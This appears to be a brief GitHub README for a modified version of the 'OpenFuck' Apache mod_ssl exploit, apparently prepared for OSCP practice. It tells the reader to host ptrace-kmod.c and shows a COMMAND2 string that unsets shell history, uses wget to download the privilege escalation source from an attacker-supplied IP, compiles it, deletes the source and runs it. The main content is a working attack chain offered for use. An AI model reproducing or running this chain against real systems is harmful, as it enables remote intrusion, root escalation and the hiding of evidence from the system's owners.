 # openfuck_oscp
modified the code on line 671

host  the ptrace-kmod.c 

added the lines export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin to overcome ld error

enter url of the file in the command2

change the url only to execute the code
```
#define COMMAND2 "unset HISTFILE; cd /tmp;export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin; wget http://enter ur ip here/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c; rm ptrace-kmod.c; ./exploit; \n"
```
for more refer:https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1


